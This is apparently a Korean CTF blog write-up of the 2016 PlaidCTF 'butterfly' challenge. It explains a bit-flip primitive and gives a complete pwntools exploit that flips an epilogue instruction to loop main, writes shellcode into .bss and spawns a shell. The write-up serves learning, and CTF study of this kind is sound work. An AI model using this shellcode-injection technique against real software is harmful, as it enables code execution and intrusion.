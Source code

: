 ```yaml
---
layout: post
title: "2016 PlaidCTF butterfly Write up"
excerpt: "bit flip을 이용한 참신한 문제"
date: 2020-05-025
categories: [system, ctf]
comments: true
---
```




연구실 과제를 하느라 ctf 문제풀이가 많이 밀렸다. 그래서 이번엔 전부터 풀어보고 싶었던 butterfly문제를 가져왔다. 뭔가 좀 참신한 느낌인 것 같다. 문제를 푸는데 다른 문제들보다 오래 걸린 것 같다.



binary :

![but1](img/but1.png)

stack canary가 적용되어 있으며, amd64 아키텍처이다. (페이로드에서 이거 설정안해서 계속 못풀었다.)

main.c :

![but2](img/but2.png)

코드를 보면 fgets로 50byte를 입력받고, strtol함수로 정수값으로 전환 > shift 연산자를 이용해서 v4의 마지막 3비트가 right shift된다. 그리고 mprotect가 있는데 처음에는 v7의 권한을 rwx로 주었다가 이후엔 r-x로 바꾼다. 

exploit vector : 

![but3](img/but3.png)

이 부분이 중요한 것 같다. 에필로그 부분인데 +216에서 add rsp,0x48을 수정하면 ret를 가지고 놀 것  같다. 

exploit :

```python
from pwn import *
 
context(arch="amd64")

p = process("./butterfly")
e = ELF("./butterfly")

tar_addr = 0x400860 + 3
tmp = (tar_addr << 3) + 6

p.sendline(str(tmp).ljust(40) + p64(e.symbols['main']))

def first(addr,data):
    for i in range(8):
        if data & (1 << i):
            tmp = (addr << 3) + i
            p.recvuntil("THOU ART GOD, WHITHER CASTEST THY COSMIC RAY?\n")
            p.sendline(str(tmp).ljust(40) + p64(e.symbols['main']))
 
def write(where,pay):
    for a,b in enumerate(pay):
	first(where + a, u8(b))
 
write(e.bss(100),asm(shellcraft.sh()))

p.recvuntil("THOU ART GOD, WHITHER CASTEST THY COSMIC RAY?\n")
p.sendline(str(e.bss(99) << 3).ljust(40) + p64(e.bss(100)))

p.clean()

p.interactive()

```

문제를 풀고나서 여러가지 풀이들을 봤는데 _libc_csu_init을 이용한 풀이도 재미있을 것 같다. 다시 한번 복습해볼만한 문제였던 것 같다. (난 아직 초보라 다시 봐야한다.)

